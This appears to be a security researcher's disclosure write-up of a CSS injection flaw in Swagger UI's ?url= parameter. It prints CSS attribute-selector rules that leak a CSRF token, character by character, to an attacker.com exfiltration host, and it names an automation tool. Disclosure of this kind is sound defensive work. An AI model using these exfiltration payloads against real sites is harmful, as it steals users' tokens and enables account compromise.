


# CSS-injection-in-Swagger-UI

We have found a CSS Injection vulnerability on Swagger UI that allows attacker to use the Relative Path Overwrite (RPO) [2][3]technique to perform CSS-based input field value exfiltration. In our PoC, we were able to successfully steal the value of the CSRF token.

**Researcher: Kevin (DatLP) of The Tarantula Team, VinCSS (a member of Vingroup)**

## What is Swagger UI

Swagger UI allows anyone — be it your development team or your end consumers — to visualize and interact with the API’s resources without having any of the implementation logic in place. It’s automatically generated from your OpenAPI (formerly known as Swagger) Specification, with the visual documentation making it easy for back end implementation and client side consumption [1].

## Background

We've discovered the vulnerability when reading the following in the document of Swagger:

```
We’ve observed that the ?url= parameter in SwaggerUI allows an aacker to override an otherwise hard‐coded schema file
The decision was made to put this in the public issue tracker because (a) we aren’t going to immediately fix this, and (b) the aack surface for this is significantly diminished by our effecve sanizaon efforts to deter XSS aacks in documents used as input.
```
Swagger had known the issue, but Swagger thought that this vulnerability could not lead to an Cross-Site Scripting (XSS) exploit, so they ignored it. So we have decided to further research on this issue. 

### Injection step:

We realize that Swagger UI allows users to embed untrusted Json from remote servers 

```javascript
var url = window.location.search.match(/url=([^&]+)/);
// ...
url = options.swaggerUrl || url
// ...
var swaggerOptions = {
    spec: spec1,
url: url, // ...
}
var ui = SwaggerUIBundle(swaggerOptions)
```

This means we can inject json via the GET parameter. In the json content we use the <style> tag and CSS @import rule to load the CSS payload:
    

    
### Exfiltration step:

With CSS payload, we can use Relative Path Overwrite (RPO) technique to perform CSS-based input field value exfiltration [4]. The following CSS code will generate a callback query to the attacker's server (https://attacker.com/exfil/a) if the CSRF token value starts with the character a, similarly it will make other requests (https://attacker.com/exfil/b; (https://attacker.com/exfil/c; https://attacker.com/exfil/d, etc) if the CSRF token value begins with character b, character c or character d:

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
...
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);
```
And after we have found the first character in the CSRF token value, we will continue to search for the second character and so on:

```css
input[name=csrf][value^=aa]{
    background-image: url(https://attacker.com/exfil/ca);
}
input[name=csrf][value^=ab]{
    background-image: url(https://attacker.com/exfil/cb);
}
 ...
input[name=csrf][value^=a9]{
    background-image: url(https://attacker.com/exfil/c9);
```

With sequential @import chaining as below so we can steal full of CSRF token value:



You can automate all this by using the [sic](https://github.com/d0nutptr/sic) tool [6]

    
## Tested versions
Swagger UI v3.23.10 and older versions

## Disclosure timeline


## Reference

1. [ Swagger UI | API Development Tools | Swagger](https://swagger.io/tools/swagger-ui/)
2. [Detecting and exploiting path‐relative stylesheet import (PRSSI) vulnerabilities | PortSwigger Research](https://portswigger.net/research/detecting-and-exploiting-path-relative-stylesheet-import-prssi-vulnerabilities)
3. [RPO](http://www.thespanner.co.uk/2014/03/21/rpo/)
4. [Exfiltration via CSS Injection](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d)
5. [Attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
6. [GitHub ‐ d0nutptr/sic: A tool to perform Sequential Import Chaining](https://github.com/d0nutptr/sic)
7. [Better Exfiltration via HTML Injection ‐ d0nut ‐ Medium](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)
8. [2019‐s3_css_injection_attacks.pdf](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)
9. [RPO Gadgets](https://blog.innerht.ml/rpo-gadgets/)
10. [add an `enableQueryConfig` option issue #4872](https://github.com/swagger-api/swagger-ui/issues/4872)


